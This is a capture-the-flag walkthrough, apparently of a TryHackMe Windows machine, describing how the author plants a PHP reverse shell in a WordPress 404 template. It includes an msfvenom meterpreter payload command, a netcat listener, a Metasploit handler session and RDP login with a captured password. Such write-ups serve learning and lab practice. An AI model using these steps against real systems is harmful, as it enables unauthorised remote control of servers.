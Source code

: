Now that we have access to Wade's Wordpress account, let's try and use the WordPress theme editor to edit the 404 Template and upload a reverse shell.

<center>

![5683c9ad5042de27f889314759a5ad02.png](../../_resources/5683c9ad5042de27f889314759a5ad02-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. Let's use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to any invalid url on the webpage. The reverse shell tries to launch, but we encounter an error.

<center>

![d93a8e9449266c751dabafddae677f8d.png](../../_resources/d93a8e9449266c751dabafddae677f8d-1.png)

![6ae90c35a0451cc58796d62cda3930bc.png](../../_resources/6ae90c35a0451cc58796d62cda3930bc-1.png)

</center>

Some Googling tells us that we're not the first to encounter this error. Thankfully, the explanation is simple.

<center>

![99aeceb1a7c252ee0fa0338c6361e335.png](../../_resources/99aeceb1a7c252ee0fa0338c6361e335-1.png)

</center>

We could also try using a [php reverse shell for Windows machines](https://github.com/Dhayalanb/windows-php-reverse-shell), but this didn't work for me either.

Let's instead try using a php reverse shell payload generated by msfvenom.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw
```

Now copy and paste the raw output into the 404 template and update the file.

<center>

![7ca759846f47cf684397cfa3868ea91d.png](../../_resources/7ca759846f47cf684397cfa3868ea91d-1.png)

</center>

Before proceeding, we set up a handler with Metasploit as follows:
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.6.30.43
LHOST => 10.6.30.43
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
```

Now send the reverse shell by triggering the 404. Meterpreter catches the reverse shell, and we have an initial foothold.

<center>

![011e8b21d3b0f57071380f0fcbb53c55.png](../../_resources/011e8b21d3b0f57071380f0fcbb53c55-1.png)

</center>

At this point, the Meterpreter shell did not do much for me; basic commands like `cd` would often fail. This held true even after switching to the Kali instance on THM.

Luckily, there is another method for gaining initial access into the system. Recall that port 3389 was also open, so we may be albe to RDP into the Windows machine. Using `xfreerdp /u:wade /v:10.10.100.184` and inputting Wade's password get's us in. The `user.txt` flag is on the desktop.

<center>

![b5bd1fb1040d70714f3896ff0e8fdb32.png](../../_resources/b5bd1fb1040d70714f3896ff0e8fdb32-1.png)

</center>
